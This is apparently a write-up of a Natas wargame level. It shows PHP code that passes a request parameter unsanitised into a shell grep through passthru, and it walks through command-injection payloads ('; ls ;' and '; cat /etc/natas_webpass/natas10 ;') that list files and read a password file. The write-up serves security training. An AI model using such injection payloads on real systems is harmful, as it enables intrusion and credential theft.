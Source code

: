 Similar setup to natas8, let's check the source code:
```php
<?

$key = "";     

if(array_key_exists("needle", $_REQUEST)) {
	$key = $_REQUEST["needle"];   
}      

if($key != "") {    
	passthru("grep -i $key dictionary.txt");   
}

?>
```

So it looks like the `$key` variable will hold the input and it will get ran through a `grep` command.

So this way of executing command is pretty insecure. We can inject our own commands into this by entering the command we want to execute as an input and surrounding our command with semicolon to separate our command with the commands the server runs.

Let's test it out with `; ls ;`:
```html
Output:

dictionary.txt
index-source.html
index.php
```

Great, the injection is working. We know that the passwords are stored in `/etc/natas_webpass` from a previous level, so let's try reading the files in there with `; cat /etc/natas_webpass/natas10 ;`:
```html
Output:

D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```